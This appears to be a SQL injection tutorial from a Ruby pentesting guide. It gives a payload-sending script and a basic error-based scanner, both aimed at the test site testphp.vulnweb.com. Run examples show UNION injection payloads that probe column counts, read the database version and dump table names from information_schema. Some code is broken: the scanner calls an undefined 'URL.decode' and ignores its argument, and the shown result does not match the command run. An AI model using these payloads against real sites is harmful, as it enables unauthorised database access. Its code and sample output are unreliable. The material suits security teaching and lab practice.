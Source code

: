 # SQL Injection Scanner


## Basic SQLi script as command line browser

The is a very basic script take your given payload and send it to the vulnerable parameter and returns the response back to you. I'll use (http://testphp.vulnweb.com/) as it's legal to test.

```ruby
#!/usr/bin/evn ruby
# KING SABRI | @KINGSABRI
# Send your payload from command line
#
require "net/http"

if ARGV.size < 2
  puts "[+] ruby #{__FILE__} [IP ADDRESS] [PAYLOAD]"
  exit 0
else
  host, payload = ARGV
end

uri = URI.parse("http://#{host}/artists.php?")
uri.query = URI.encode_www_form({"artist" => "#{payload}"})
http = Net::HTTP.new(uri.host, uri.port)
http.use_ssl = true if uri.scheme == 'https'    # Enable HTTPS support if it's HTTPS
# http.set_debug_output($stdout)

request = Net::HTTP::Get.new(uri.request_uri)
response = http.request(request)
# puts "[+] Status code: "+ response.code + "\n\n"
# puts response.body.gsub(/<.*?>/, '').strip
puts response.body.scan(/<h2 id='pageName'>.*<\/h2>/).join.gsub(/<.*?>/, '').strip

puts ""
```


> I've commented the line `puts response.body.gsub(/<.*?>/, '').strip` and added a custom RegEx to fix our target outputs.



Let's to test it in action

```
ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,NULL,NULL,NULL#" | grep -i -e warning -e error
# => Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in /hj/var/www/artists.php on line 62

ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,NULL,NULL#" | grep -i -e warning -e error
# => 

ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,@@VERSION,NULL#"
# => artist: 5.1.73-0ubuntu0.10.04.1

ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,GROUP_CONCAT(table_name),NULL FROM information_schema.tables#" 
# => artist: CHARACTER_SETS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS,COLUMN_PRIVILEGES,ENGINES,EVENTS,FILES,GLOBAL_STATUS,GLOBAL_VARIABLES,KEY_COLUMN_USAGE,PARTITIONS,PLUGINS,PROCESSLIST,PROFILING,REFERENTIAL_CONSTRAINTS,ROUTINES,SCHEMATA,SCHEMA_PRIVILEGES,SESSION_STATUS,SESSION_VARIABLES,STATISTICS,TABLES,TABLE_CONSTRAINTS,TABLE_PRIVIL
```





Here a very basic and simple SQL-injection solid scanner, develop it as far as you can!

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
# Very basic SQLi scanner!
#
require 'net/http'

# Some SQLi payloads
payloads =
    [
      "'",
      '"',
      "' or 1=2--+"
    ]

# Some database error responses
errors =
    {
      :mysql => [
                 "SQL.*syntax",
                 "mysql.*(fetch).*array",
                 "Warning"
                ],
      :mssql => [
                 "line.*[0-9]",
                 "Microsoft SQL Native Client error.*"
                ],
      :oracle => [
                  ".*ORA-[0-9].*",
                  "Warning"
                 ]
      }

# Try a known vulnerable site
uri  = URI.parse "http://testphp.vulnweb.com/artists.php?artist=1"

# Update the query with a payload
uri.query += payloads[0]

# Send get request
response = Net::HTTP.get uri

# Search if an error occurred = vulnerable
puts "[+] The #{URL.decode(uri.to_s)} is vulnerable!" unless response.match(/#{errors[:mysql][0]}/i).nil?

```

Try it on this url (http://testasp.vulnweb.com/showforum.asp?id=0)

Results
```
ruby sqli.rb http://testasp.vulnweb.com/showforum.asp?id=0
[+] The http://testphp.vulnweb.com/artists.php?artist=1' is vulnerable!
```
